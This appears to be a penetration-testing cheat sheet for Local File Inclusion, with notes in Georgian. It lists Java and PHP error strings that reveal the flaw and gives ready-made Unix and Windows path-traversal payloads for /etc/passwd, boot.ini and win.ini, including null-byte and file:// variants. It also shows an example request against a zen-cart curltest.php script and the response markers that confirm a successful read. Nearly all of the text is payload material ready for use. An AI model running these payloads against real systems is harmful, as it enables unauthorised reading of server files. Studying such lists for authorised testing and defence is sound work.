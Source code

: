### LFI 

#### Errors:
```
Detect Payload: abc.txt
```
request-ის შემდეგ აბრუნებს შემდეგ შეცდომებს respons-ში

##### Java Errors:
```
java.io.FileNotFoundException
java.lang.Exception
java.lang.IllegalArgumentException
java.net.MalformedURLException
```
##### PHP Errors:
```
fread\\(\\)
for inclusion \'\\(include_path=
Failed opening required
<b>Warning</b>:  file\\('
<b>Warning</b>:  file_get_contents\\('
open_basedir restriction in effect
```

##### Unix Payloads:
```
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd
../../../../../../../../../../../../../../../etc/passwd
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.html
/etc/passwd
```

შემდეგი სახის LFI - ის ტესტირება, როგორიცაა http://website/zen-cart/extras/curltest.php?url=file:///etc/passwd
```
file:///etc/passwd
/etc/passwd%00
/etc/passwd%00.html
/etc/passwd%00.ext
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.ext
```

##### Windows Payloads:
```
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini
../../../../../../../../../../../../../../../boot.ini
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini%00
/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini%00.html
C:\\boot.ini
C:\\boot.ini%00
C:\\boot.ini%00.html
%SYSTEMROOT%\\win.ini
%SYSTEMROOT%\\win.ini%00
%SYSTEMROOT%\\win.ini%00.html
file:///C:/boot.ini
file:///C:/win.ini
C:\\boot.ini%00.ext
%SYSTEMROOT%\\win.ini%00.ext
```
ვაკვირდებით respons და ვეძებთ 
```
root:x
for 16-bit app support
boot loader
```

სასურველი payload-ების ვორდლისტი
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders



